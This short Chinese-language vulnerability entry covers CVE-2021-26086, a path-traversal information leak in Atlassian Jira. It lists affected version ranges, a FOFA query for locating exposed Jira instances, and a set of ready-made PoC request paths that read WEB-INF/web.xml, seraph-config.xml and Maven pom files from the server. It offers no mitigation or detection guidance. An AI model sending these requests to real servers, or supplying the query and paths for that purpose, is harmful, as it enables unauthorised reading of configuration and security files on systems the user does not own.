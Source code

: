 # Atlassian Jira 敏感信息泄露 CVE-2021-26086

## 漏洞描述

JIRA是Atlassian公司出品的项目与事务跟踪工具，被广泛应用于缺陷跟踪、客户服务、需求收集、流程审批、任务跟踪、项目跟踪和敏捷管理等工作领域。

参考链接：

- https://jira.atlassian.com/browse/JRASERVER-72695

## 漏洞影响

```
version < 8.5.14
8.6.0 ≤ version < 8.13.6
8.14.0 ≤ version < 8.16.1
```

## FOFA

```
app="ATLASSIAN-JIRA"
```

## 漏洞复现

poc：

```
/s/cfx/_/;/WEB-INF/web.xml
/s/cfx/_/;/WEB-INF/decorators.xml
/s/cfx/_/;/WEB-INF/classes/seraph-config.xml
/s/cfx/_/;/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties
/s/cfx/_/;/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
/s/cfx/_/;/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
/s/cfx/_/;/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.properties
```

